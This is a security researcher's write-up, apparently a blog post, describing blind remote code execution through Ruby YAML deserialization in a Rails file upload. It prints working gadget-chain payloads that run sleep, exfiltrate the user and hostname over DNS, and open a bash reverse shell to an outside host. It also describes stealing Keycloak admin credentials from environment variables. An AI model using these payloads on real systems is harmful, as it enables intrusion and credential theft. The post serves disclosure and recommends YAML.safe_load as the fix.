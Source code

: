 ```yaml
---
layout: post
title:  "Blind Remote Code Execution through YAML Deserialization"
date:   2021-06-09
---
```


During an application security assessment of a Ruby on Rails project, I identified upload functionality that allowed users to submit text, CSV, and YAML files. The YAML option stood out due to its potential as a deserialization vulnerability.  

After several uploads, I found that the process validated file contents before uploading them to Azure blob storage. YAML files starting with **&#45;&#45;&#45;!ruby/object:BadValue** triggered a fatal status, while other invalid YAML files returned an error status. This fatal status was the only indicator that the upload process might be vulnerable.

<figure>
  <img src="/assets/img/2021/blind-rce-status-indicator.png">
  <figcaption>Figure 1 – Fatal status on poc2.yml</figcaption>
</figure>  

Several researchers previously identified gadget chains in Ruby that could lead to code execution, as detailed in the GitHub Gist ["Ruby YAML Exploits."](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

I first tested the Gem::Requirement chain using nslookup and curl commands to a Burp collaborator but received no DNS lookup. After this chain failed, I tested the Gem::Installer chain with the same commands, but again no DNS lookup occurred.

After several attempts, I decided to try the sleep command for 10 minutes with the Gem::Installer chain.
> ```yaml
> ---
> - !ruby/object:Gem::Installer
>     i: x
> - !ruby/object:Gem::SpecFetcher
>     i: y
> - !ruby/object:Gem::Requirement
>   requirements:
>     !ruby/object:Gem::Package::TarReader
>     io: &1 !ruby/object:Net::BufferedIO
>       io: &1 !ruby/object:Gem::Package::TarReader::Entry
>          read: 0
>          header: "abc"
>       debug_output: &1 !ruby/object:Net::WriteAdapter
>          socket: &1 !ruby/object:Gem::RequestSet
>              sets: !ruby/object:Net::WriteAdapter
>                  socket: !ruby/module 'Kernel'
>                  method_id: :system
>              git_set: sleep 600
>          method_id: :resolve
> ```

Uploading the YAML file caused the status icon to display a loading animation for 10 minutes, indicating that the sleep command executed successfully.

<figure>
  <img src="/assets/img/2021/yaml-deserial-rce-sleep-1.png">
  <figcaption>Figure 2 – Start of the upload</figcaption>
</figure>

<figure>
  <img src="/assets/img/2021/yaml-deserial-rce-sleep-2.png">
  <figcaption>Figure 3 – Nine minutes after the file was uploaded</figcaption>
</figure> 

After many failed attempts, I finally achieved success! While the sleep command doesn't demonstrate significant impact, it confirmed that code execution was possible. Although it could be used for data exfiltration through a Bash if condition (see below), this would be time-consuming and tedious.
```bash
if [ -f /etc/passwd ]; then sleep 5; fi
```  

After further consideration, I tried the bash -c command, echoing to **/dev/tcp/:remote-server/443**, hoping for a DNS lookup. To my surprise, I received a DNS lookup and was able to exfiltrate the user and server hostname.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.wkkib01k9lsnq9qm2pogo10tmksagz.burpcollaborator.net/443'"
         method_id: :resolve
```

<figure>
  <img src="/assets/img/2021/yaml-rce.png">
  <figcaption>Figure 4 – Exfiltrated user and server hostname through DNS lookup</figcaption>
</figure> 

Upon reviewing the server hostnames, I noticed they changed each time the same file was re-uploaded. It seemed there wasn’t much impact, as an Azure Serverless function or worker was likely being spun up. To assess potential impact, I needed to confirm access to environment variables for sensitive information.

I then decided to attempt a reverse shell on port 443, as it’s less likely to be filtered outbound, using the following YAML file.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/reverseshell.example.com/443 0>&1'"
         method_id: :resolve
```

Success! I gained a reverse shell and ran printenv, which revealed sensitive information, including Keycloak admin credentials, Redis, and Azure DB details.

<figure>
  <img src="/assets/img/2021/reverse-shell-env-vars.png">
  <figcaption>Figure 5 – Listed server environment variables</figcaption>
</figure> 

The server was not an Azure function, but a Kubernetes pod, likely running on Azure Kubernetes. Using the Keycloak admin credentials, I logged into Keycloak's master realm as the admin user through the following URL:  
**https://redacted.com/auth/realms/master/protocol/openid-connect/auth?client_id=account-console&redirect_uri=https%3A%2F%2Fredacted.com%2Fauth%2Frealms%2Fmaster%2Faccount%2F&state=:stateUUID&response_mode=fragment&response_type=code&scope=openid&nonce=:nonceUUID&code_challenge=:challengeValue&code_challenge_method=S256**

The state UUID, nonce UUID, and code challenge values were obtained from the web application's realm.

Given the high impact, the report was sent immediately, with remediation suggesting replacing Ruby's YAML.load() with YAML.safe_load(), as YAML.load() was likely the cause of the vulnerability.

References:  
https://ruby-doc.org/stdlib-2.6.1/libdoc/psych/rdoc/Psych.html  
https://www.elttam.com/blog/ruby-deserialization/  
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
